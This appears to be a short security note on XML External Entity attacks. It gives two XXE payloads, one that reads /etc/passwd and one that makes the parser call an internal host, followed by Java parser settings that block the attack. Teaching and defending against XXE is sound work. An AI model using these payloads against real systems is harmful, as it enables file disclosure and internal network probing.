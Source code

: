 #### forgery
```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "file:///etc/passwd">
]>
<foo>
  &xxe;
</foo>
```

or 

```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "http://internal.vulnerableapp.com:8443">
]>
<foo>
  &xxe;
</foo>
```

_Just who invented these unnecessary attack vectors_ Or was this deemed useful at the time? I certainly never used it, or thought this would come in handy...

#### Prevention

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
String FEATURE = null;
try {
    FEATURE = "http://apache.org/xml/features/disallow-doctype-decl";
    dbf.setFeature(FEATURE, true);

    FEATURE = "http://xml.org/sax/features/external-general-entities";
    dbf.setFeature(FEATURE, false);

    FEATURE = "http://xml.org/sax/features/external-parameter-entities";
    dbf.setFeature(FEATURE, false);

    FEATURE = "http://apache.org/xml/features/nonvalidating/load-external-dtd";
    dbf.setFeature(FEATURE, false);

    dbf.setXIncludeAware(false);
    dbf.setExpandEntityReferences(false);
   
} catch (ParserConfigurationException e) {
    logger.info("ParserConfigurationException was thrown. The feature '" + FEATURE 
    + "' is probably not supported by your XML processor.");
} catch (SAXException e) {
    logger.warning("A DOCTYPE was passed into the XML document");
} catch (IOException e) {
    logger.error("IOException occurred, XXE may still possible: " + e.getMessage());
}

// Load XML file or stream using a XXE agnostic configured parser
DocumentBuilder safebuilder = dbf.newDocumentBuilder();
```
